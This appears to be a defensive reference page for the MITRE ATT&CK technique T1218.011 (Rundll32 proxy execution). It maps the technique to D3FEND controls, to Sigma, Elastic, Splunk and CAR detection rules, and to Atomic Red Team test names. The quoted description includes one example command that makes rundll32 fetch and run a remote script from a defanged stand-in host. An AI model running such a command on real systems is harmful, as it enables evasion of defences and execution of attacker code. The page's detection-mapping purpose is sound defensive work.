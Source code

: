 # T1218.011: Rundll32
**MITRE ATT&CK Tactic(s):** Defense Evasion

**[MITRE ATT&CK Description](https://attack.mitre.org/techniques/T1218/011)**
<blockquote>Adversaries may abuse rundll32.exe to proxy execution of malicious code. Using rundll32.exe, vice executing directly (i.e. [Shared Modules](https://attack.mitre.org/techniques/T1129)), may avoid triggering security tools that may not monitor execution of the rundll32.exe process because of allowlists or false positives from normal operations. Rundll32.exe is commonly associated with executing DLL payloads (ex: <code>rundll32.exe {DLLname, DLLfunction}</code>).

Rundll32.exe can also be used to execute [Control Panel](https://attack.mitre.org/techniques/T1218/002) Item files (.cpl) through the undocumented shell32.dll functions <code>Control_RunDLL</code> and <code>Control_RunDLLAsUser</code>. Double-clicking a .cpl file also causes rundll32.exe to execute. (Citation: Trend Micro CPL)

Rundll32 can also be used to execute scripts such as JavaScript. This can be done using a syntax similar to this: <code>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"</code>  This behavior has been seen used by malware such as Poweliks. (Citation: This is Security Command Line Confusion)

Adversaries may also attempt to obscure malicious code from analysis by abusing the manner in which rundll32.exe loads DLL function names. As part of Windows compatibility support for various character sets, rundll32.exe will first check for wide/Unicode then ANSI character-supported functions before loading the specified function (e.g., given the command <code>rundll32.exe ExampleDLL.dll, ExampleFunction</code>, rundll32.exe would first attempt to execute <code>ExampleFunctionW</code>, or failing that <code>ExampleFunctionA</code>, before loading <code>ExampleFunction</code>). Adversaries may therefore obscure malicious code by creating multiple identical exported function names and appending <code>W</code> and/or <code>A</code> to harmless ones.(Citation: Attackify Rundll32.exe Obscurity)(Citation: Github NoRunDll)</blockquote>

## Policy / Process Controls
### [MITRE D3FEND](https://d3fend.mitre.org/)
**Last accessed:** May 23, 2022

**Total ATT&CK-mapped resources:** 2328

**ATT&CK-mapped resources for this (sub)technique:** 6

Resources mapped to this (sub)technique can be viewed on [this page](https://d3fend.mitre.org/) (see also the [ATT&CK to D3FEND Mapper](https://d3fend.mitre.org/tools/attack-mapper) tool):

* [File Analysis](https://d3fend.mitre.org/technique/d3f:FileAnalysis)
* [Process Spawn Analysis](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis)
* [System Call Analysis](https://d3fend.mitre.org/technique/d3f:SystemCallAnalysis)
* [Local File Permissions](https://d3fend.mitre.org/technique/d3f:LocalFilePermissions)
* [System Call Filtering](https://d3fend.mitre.org/technique/d3f:SystemCallFiltering)
* [Decoy File](https://d3fend.mitre.org/technique/d3f:DecoyFile)

## Technical Controls (Detection Rules)
### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** August 09, 2022

**Total ATT&CK-mapped rules:** 159

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[analytics](https://github.com/mitre-attack/car/blob/master/analytics)</code> folder:

* [RunDLL32.exe monitoring](https://github.com/mitre-attack/car/tree/master/analytics/CAR-2014-03-006.yaml)

### [Elastic Detection Rules](https://github.com/elastic/detection-rules)
**Last accessed:** August 09, 2022

**Total ATT&CK-mapped rules:** 641

**ATT&CK-mapped resources for this (sub)technique:** 3

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/elastic/detection-rules/tree/main/rules)</code> folder:

* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Unusual Child Processes of RunDLL32](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_rundll32_no_arguments.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Suspicious Execution from a Mounted Device](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_suspicious_execution_from_mounted_device.toml)**
* [windows](https://github.com/elastic/detection-rules/tree/main/rules/windows/) / **[Unusual Network Connection via RunDLL32](https://github.com/elastic/detection-rules/blob/main/rules/windows/defense_evasion_unusual_network_connection_via_rundll32.toml)**

### [Sigma rules public repository](https://github.com/SigmaHQ/sigma)
**Last accessed:** August 09, 2022

**Total ATT&CK-mapped rules:** 2578

**ATT&CK-mapped resources for this (sub)technique:** 30

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[rules](https://github.com/SigmaHQ/sigma/tree/master/rules)</code> folder:

* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [create_remote_thread](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/create_remote_thread/) / **[PowerShell Rundll32 Remote Thread Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/create_remote_thread/sysmon_susp_powershell_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [file_event](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/file_event/) / **[Unidentified Attacker November 2018](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_apt_unidentified_nov_18.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [file_event](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/file_event/) / **[SCR File Write Event](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/file_event/file_event_win_new_src_file.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [network_connection](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/network_connection/) / **[Rundll32 Internet Connection](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/network_connection/net_connection_win_rundll32_net_connections.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Equation Group DLL_U Load](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_equationgroup_dll_u_load.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[EvilNum Golden Chickens Deployment via OCX Files](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_evilnum_jul20.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Sofacy Trojan Loader Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_sofacy.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Unidentified Attacker November 2018](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_unidentified_nov_18.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[ZxShell Malware](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_apt_zxshell.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Bad Opsec Defaults Sacrificial Processes With Improper Arguments](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_bad_opsec_sacrificial_processes.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[F-Secure C3 Load by Rundll32](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_c3_load_by_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[CobaltStrike Load by Rundll32](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_cobaltstrike_load_by_rundll32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Fireball Archer Install](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_crime_fireball.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[HTML Help Shell Spawn](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_html_help_spawn.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Rundll32 InstallScreenSaver Execution](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_lolbin_rundll32_installscreensaver.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[NotPetya Ransomware Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_malware_notpetya.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Detection of PowerShell Execution via DLL](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_powershell_dll_execution.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[RedMimicry Winnti Playbook Execute](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_redmimicry_winnti_proc.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Control Panel DLL Load](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_control_dll_load.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Emotet RunDLL32 Process Creation](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_emotet_rundll32_execution.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Code Execution via Pcwutl.dll](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_pcwutl.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_activity.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Call by Ordinal](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_by_ordinal.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Script in CommandLine](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_script_run.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Setupapi.dll Activity](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_setupapi_installhinfsection.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[RunDLL32 Spawning Explorer](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_spawn_explorer.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Suspicious Rundll32 Activity Invoking Sys File](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_rundll32_sys.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Shell32 DLL Execution in Suspicious Directory](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_target_location_shell32.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [process_creation](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/process_creation/) / **[Process Access via TrolleyExpress Exclusion](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_susp_trolleyexpress_procdump.yml)**
* [windows](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/) / [registry](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/registry/) / [registry_set](https://github.com/SigmaHQ/sigma/tree/master/rules/windows/registry/registry_set/) / **[ScreenSaver Registry Key Set](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/registry/registry_set/registry_set_scr_file_executed_by_rundll32.yml)**

### [Splunk Security Content](https://github.com/splunk/security_content)
**Last accessed:** August 09, 2022

**Total ATT&CK-mapped rules:** 1624

**ATT&CK-mapped resources for this (sub)technique:** 16

Resources mapped to this (sub)technique can be located in the following files within the repository's <code>[detections](https://github.com/splunk/security_content/tree/develop/detections)</code> folder:

* [deprecated](https://github.com/splunk/security_content/tree/develop/detections/deprecated/) / **[Suspicious Rundll32 Rename](https://github.com/splunk/security_content/blob/develop/detections/deprecated/suspicious_rundll32_rename.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - advpack](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___advpack.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - setupapi](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___setupapi.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Detect Rundll32 Application Control Bypass - syssetup](https://github.com/splunk/security_content/blob/develop/detections/endpoint/detect_rundll32_application_control_bypass___syssetup.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Control RunDLL Hunt](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_hunt.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Control RunDLL World Writable Directory](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_control_rundll_world_writable_directory.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 DNSQuery](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_dnsquery.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 LockWorkStation](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_lockworkstation.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 Process Creating Exe Dll Files](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_process_creating_exe_dll_files.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Rundll32 with no Command Line Arguments with Network](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll32_with_no_command_line_arguments_with_network.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[RunDLL Loading DLL By Ordinal](https://github.com/splunk/security_content/blob/develop/detections/endpoint/rundll_loading_dll_by_ordinal.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious IcedID Rundll32 Cmdline](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_icedid_rundll32_cmdline.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 dllregisterserver](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_dllregisterserver.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 PluginInit](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_plugininit.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 StartW](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_startw.yml)**
* [endpoint](https://github.com/splunk/security_content/tree/develop/detections/endpoint/) / **[Suspicious Rundll32 no Command Line Arguments](https://github.com/splunk/security_content/blob/develop/detections/endpoint/suspicious_rundll32_with_no_command_line_arguments.yml)**


## Offensive Security Tests
### [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
**Last accessed:** August 10, 2022

**Total ATT&CK-mapped tests:** 1341

**ATT&CK-mapped resources for this (sub)technique:** 12

The following unit tests mapped to this (sub)technique can be located in [the file here](https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1218.011/T1218.011.yaml):

* Rundll32 execute JavaScript Remote Payload With GetObject
* Rundll32 execute VBscript command
* Rundll32 advpack.dll Execution
* Rundll32 ieadvpack.dll Execution
* Rundll32 syssetup.dll Execution
* Rundll32 setupapi.dll Execution
* Execution of HTA and VBS Files using Rundll32 and URL.dll
* Launches an executable using Rundll32 and pcwutl.dll
* Execution of non-dll using rundll32.exe
* Rundll32 with Ordinal Value
* Rundll32 with Control_RunDLL
* Rundll32 with desk.cpl

### [Cyber Analytics Repository](https://car.mitre.org)
**Last accessed:** August 10, 2022

**Total ATT&CK-mapped tests:** 70

**ATT&CK-mapped resources for this (sub)technique:** 1

Resources mapped to this (sub)technique can be located in the following files within [this repository](https://github.com/mitre-attack/car/blob/master/analytics):

* [RunDLL32.exe monitoring](https://github.com/mitre-attack/car/tree/master/analytics/CAR-2014-03-006.yaml): 1 unit tests

